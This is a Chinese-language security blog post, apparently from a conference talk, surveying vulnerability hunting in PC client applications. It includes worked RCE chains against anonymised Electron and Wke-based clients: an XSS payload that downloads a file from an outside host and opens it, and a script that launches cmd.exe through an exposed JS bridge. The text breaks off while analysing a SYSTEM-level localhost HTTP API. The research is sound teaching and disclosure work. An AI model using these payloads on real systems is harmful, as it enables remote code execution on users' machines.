# 被忽视的暗面：客户端应用漏洞挖掘之旅

December 18, 2023


## 

老人与海 (live) - 汪苏泷/王心凌

\- 00:00

# 被忽视的暗面：客户端应用漏洞挖掘之旅

## 前言

在2023年12月15日，我有幸参加了由“字节跳动安全中心”举办的“安全范儿”沙龙活动。作为“中孚信息元亨实验室”的一员，我被邀请分享名为“被忽视的暗面：客户端应用漏洞挖掘之旅”的技术议题。

客户端应用漏洞是许多人在进行漏洞挖掘和安全测试时容易忽视的领域。随着技术的更迭和攻防手段的升级，客户端应用漏洞也逐渐出现在大众视野中（APT攻击、攻防赛事等等），在本次议题中，我们将重点关注PC侧的客户端应用程序，如即时通讯、远程服务、视频软件等应用，探索其中存在的漏洞和潜在的安全风险。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17026451662626.jpg)

## 漏洞案例

漏洞案例的分析主要分为两类，一是常规风险的介绍和了解，二是RCE漏洞的挖掘思路和手法。

**注意：以下漏洞案例均通过脱敏和细节上的处理。**

### 常规风险篇

常规风险在这里我分为这几类：信息泄露、白利用、逻辑校验、缓冲区溢出。

#### 信息泄漏

对于客户端的信息泄露，我一开始采用的方式就是基于IDA Strings进行敏感的字符串信息匹配，将HaE的规则转为Yara规则再通过FindCrypt3插件进行匹配。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17026453007764.jpg)

实际效果没有那么好，仅有一些数据库的连接配置信息泄露，并且由于是基于IDA的也没有那么好的进行自动批量化发现。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028731522870.jpg)

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028731780708.jpg)

我们可以借助`Strings`工具来快速的获取可执行文件的字符串内容，并通过正则或其他方式进行匹配。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028736490974.jpg)

#### 白利用

白利用问题就老生常谈了，在红队的工作中也经常遇到，如DLL文件没有经过比对导致的劫持问题、带有签名的程序可以通过参数的方式执行任意命令。因此在这里就不过多的赘述了。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028738382826.jpg)

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028738618693.jpg)

#### 逻辑校验

很多客户端程序在对用户信息进行获取的时候会通过内存的方式，来获取用户的编号，从而基于此进一步来获取用户的信息。然而这种方式并不是完全可信的，我们可以通过CE来对内存进行修改，从而导致越权漏洞的产生。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028740063948.jpg)

这类问题很经典，在以往就有许多案例（wooyun-2015-0143395、wooyun-2014-048606），但现在仍然可以从一些主流的应用上发现到类似的安全问题。

#### 缓冲区溢出

缓冲区溢出问题太多太多了，我们可以通过通过IDA插件VulFi定位脆弱点，很轻松的在一些客户端应用上找到堆、栈溢出问题。除此之外，也可以通过Boofuzz来对客户端应用开启的本地网络服务进行Fuzz，从而找到溢出问题。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028745014755.jpg)

除了本地网络服务以外，最经典的、利用最多的还是特定文件格式处理客户端，如常用的Word、Excel。我在实际挖掘的过程中找到了一些图片处理的客户端程序，它用于各种各样的图片处理，我们可以找一些比较不常见的图片格式，并且通过网盘资源找到一些样本文件，丢给GPT或IFFA来分析文件格式，并输出Pits脚本，通过Peach Fuzzer来进行Fuzz工作。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028747262213.jpg)

### RCE篇

接着我们来到RCE篇，请注意这里的RCE并不是Pre Auth的，案例中提到的大多需要1 Click进行交互才能利用。但也不是绝对，如果一些客户端的网络服务端口是监听在0.0.0.0的，只要你与目标机器处于同一个网络，或该客户端是在服务器上使用的，也一样可以实现0 Click的效果。

#### Web类客户端

Web类客户端，我的定义是基于HTML、CSS、JS等Web前端技术所构建的客户端应用程序，如Electron这类CEF（浏览器嵌入式）框架开发的客户端应用，以及基于渲染引擎（如Wke）所开发的客户端应用。

##### 某IM客户端应用

如下图所示，是一个即时通讯客户端应用，我在群名称重命名时发现了一个反射XSS漏洞，根据其目录结构我知道它是一个基于Electron开发的程序。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028753704726.jpg)

在Electron框架下，如果开发者在渲染页面时配置`nodeIntegration`为true，则说明我们可以在前端中使用Nodejs的语法，这就导致我们可以直接在前端使用如下Nodejs代码执行命令：

```nodejs
require('child_process').exec(...);
```

但是这个配置项在创建功能窗口时并没有开启：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image019.png)

所以，我们也就没办法通过XSS执行Nodejs的代码，但是根据当前的Electron的版本1.8.7去互联网检索，发现这个版本存在一个历史漏洞：CVE-2018-15685，而后进行相关验证，也无法成功。

但是我们在`\resources\app\src\inject\preload.js`文件中（这是预加载JS，也就表示这个文件在窗口创建后，页面创建前就执行了），发现了注册的全局变量：

```javascript
window.ZxDesktop = ZxDesktop;
```

所以我们可以直接去调用这个全局变量，从而去使用其内部的定义的一些功能：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028758518853.jpg)

该全局变量实际上导出了很多其他模块及对应方法：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image025.png)

我们跟进File模块，就可以发现存在一个open函数：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image027.png)

跟进代码和测试之后，发现它就是文件打开函数，在Console下去调用，成功打开计算器：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image029.png)

接着看导出函数列表的其他项，发现存在两个文件保存的方法：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image031.png)

而它们所指向的都是另外一个模块的方法：

```javascript
const Download = require('../download_extra/download.render.js');
```

跟进这个模块，发现实际上他们都来自同一个方法，只不过传递的参数isSelect有不同：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image033.png)

接着我们来完整的阅读下代码即可发现整个逻辑，首先根据你传递的参数来判断要调用NormalDownload（正常下载）还是ChunkDownload（分块下载），接着根据isSelect函数来判断调用save还是saveAs方法：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image035.png)

所以我们仍然需要跟进NormalDownload或ChunkDownload对应的代码，来查看它们这些方法的逻辑是什么，这里看了之后，两者代码的唯一区别就是分块，所以本文就以NormalDownload的save、saveAs方法去说明。

首先是saveAs方法，它会调用一个文件保存框，然后赋值调用retryStart方法：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image037.png)

而实际上retryStart方法内调用的是start方法，这个方法是用来进行请求下载的：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image039.png)

而后下载的文件实际上会保存在用户的数据目录下，save方法与saveAs方法的最大的不同就是没有这个文件保存框，所以我们当然选择使用save方法。

需要注意，在如上代码中save和saveAs的传递参数不一致，其实这不影响最终的处理，因为在一开始的对象创建时候就通过构造函数赋值了：

```javascript
let downloader = new Download(file, config);
```

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image041.png)

至此，我们就获得了文件下载的攻击路径，我们可以根据对应参数这样构建JS代码：

```javascript
ZxDesktop.require("File").save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});
```

我们已经获得了文件下载的功能，攻击路径就很明显了：用户下载文件，打开文件。但是实际操作中，我们打开文件还缺少一个路径，并且在实际的测试中，默认情况下，下载的文件是会保存在应用的数据目录的null目录下。

而这个目录可能会被用户更改（用户名也没法获取），所以我们需要搭配一个点去获取路径，在这里找到了ZxDesktop的System模块：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image045.png)

它的导出列表中有两个属性：dbPath、userDataPath，它们的内容都是一样的，指向了用户的数据目录：

```javascript
ZxDesktop.require("System").userDataPath
```

我们可以这样拼接，就有了下载文件的目录信息了：

```javascript
ZxDesktop.require("System").userDataPath + "/null/test.txt"
```

当我们满足所有条件后，就可以构造完整的攻击代码了：

1.下载文件：

```javascript
var a = ZxDesktop;

var b = a.require("File");

b.save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});
```

2.拼接文件路径，打开文件：

```javascript
b.open(a.require("System").userDataPath + "/null/test.txt");
```

3.最终Exploit：

```html
"><svg onload='var a = ZxDesktop;var b = a.require("File");b.save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});b.open(a.require("System").dbPath + "/null/test.txt");'>
```

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028761314895.jpg)

##### 某运维平台客户端

在某运维平台客户端中，我们发现可以通过伪协议链接（`xxx://webview/?url=http://xxxx`）来达到端内任意页面加载，这也就表示我们可以执行任意JS代码。

根据加载的DLL文件得知，其所依赖的前端页面渲染是开源项目[Wke](https://github.com/cexer/wke)。

在源代码`wke/jsBind.cpp`中，发现wkeJSBindFunction方法提供了JSBridge的功能，将JavaScript函数绑定到C++中一个本地函数。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028764422964.jpg)

基于IDA分析得知，目标应用使用了该方法将JS函数与C++函数进行了绑定。图下图所示，其将C++某个函数地址，与名为callprogram的JavaScript函数进行绑定，我们可以直接在JS代码中调用。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028765186722.jpg)

跟进对应的C++函数，我们发现它会通过wkeJSParam获取参数，再通过JSToTempStringW获取字符串形式的参数值，最终将两个参数带入ShellExecuteW函数执行。即最终执行的代码为：`ShellExecuteW(0, "open", 参数1, 参数2, 0, 1)`。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028765625148.jpg)

因此我们可以构建如下的Exploit代码，并通过伪协议的方式使目标可以打开包含Exp代码的网页：

```plaintext
<script>callprogram("C:/Windows/System32/cmd.exe", "/c calc");</script>
```

#### 传统类客户端

传统类客户端，我的定义是基于C/C++写的一些传统应用，如VPN客户端、视频软件、远程控制软件等偏生活、日常类的应用。

##### 某远程服务平台客户端

在拿到一个客户端程序时，第一步是安装，第二步则应该是先大致去了解该程序的一些目录结构、运行环境等信息，这样我们在接下来的漏洞挖掘中才会有更多的信息来进行关联，辅助我们挖掘漏洞。

如下图所示，安装完某远程服务平台客户端后，我通过火绒剑逐个查看对应的进程信息，在TCP/IP窗口中看见当前进程的网络通信或监听信息。如下图所示就是`UserClient.exe`进程当前的网络通信信息，我们可以看到它在本地监听了两个端口：`38227`、`38230`。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16679755790172.jpg)

它的协议都是TCP，我们可以尝试使用HTTP的方式去访问，结果显示`38230`端口可以以HTTP协议的方式进行访问。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16679844917231.jpg)

我们可以选取响应报文中的`bangwo8client`字符串在IDA的Strings窗口中进行搜索，通过这样的方式来进行逻辑的回溯。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16679850207168.jpg)

双击进入字符串所在的`.RDATA`节，我们就可以看到该字符串对应的交叉引用，那么接下来我们的工作就是**进入这些函数看具体实现是否对的上响应报文的主体内容**。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16680597537856.jpg)

我们进入一个函数查看，会发现在函数的头部代码中有如下这么一段内容，它的逻辑似乎就对应了HTTP响应报文的主体返回，通过字符串的对应我们能大致知道`sub_487760`函数的作用就是为了将字符串解析到JSON格式中，然后再通过其他函数拼接JSON的字段内容给到`Block`。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16680633669819.jpg)

除了我们跟进的这个函数外其他的函数逻辑都大致一样，并且我们通过IDA插件`CTO`查看调用关系，发现这些函数最终都是被同一个函数`sub_674090`调用。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16680636918960.jpg)

那我们再继续跟进函数`sub_674090`，函数的逻辑就是根据不同的URI进入不同的函数处理，也就表示着这里就是HTTP请求逻辑处理的入口位置。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16680638567124.jpg)

有了请求处理逻辑的入口，接下来我们就要去看每个URI对应的处理逻辑是什么，看一下处理的逻辑中是否有参数值可控导致存在的相关漏洞。

如果你觉得这样去看很累，也可以基于敏感函数的调用链来对应每个URI的处理函数，如下图所示我就基于`ShellExecuteA`函数的调用链找到了URI`/api_install`的对应处理函数，也就表示当你访问URL：`http://127.0.0.1:38230/api_install`时很有可能就会触发`ShellExecuteA`函数。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16680696654183.jpg)

那么我们可以跟进去看一下该处理函数，看看是否可以将可控参数值带入到`ShellExecuteA`函数里去执行。

在函数的一开始就判断运行当前程序的用户是否是`system`，如果不是的话则直接返回响应内容（状态码500）提示当前不是以SYSTEM权限运行的进程。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16680699571630.jpg)

这里我们通过Process Hacker可以看到`UserClient.exe`进程对应的用户就是`SYSTEM`：

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16680700889509.jpg)

也就表示我们当前是满足这个条件的，所以可以接着看IF分支内的逻辑。在IF分支内就执行了`ShellExecuteA`函数，根据`ShellExecuteA`函数的使用语法我们知道它这是以`v15`作为参数执行`v16`程序，所以我们需要知道`v15`、`v16`这两个变量是如何赋值而来的。

[](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16680708970258.jpg)

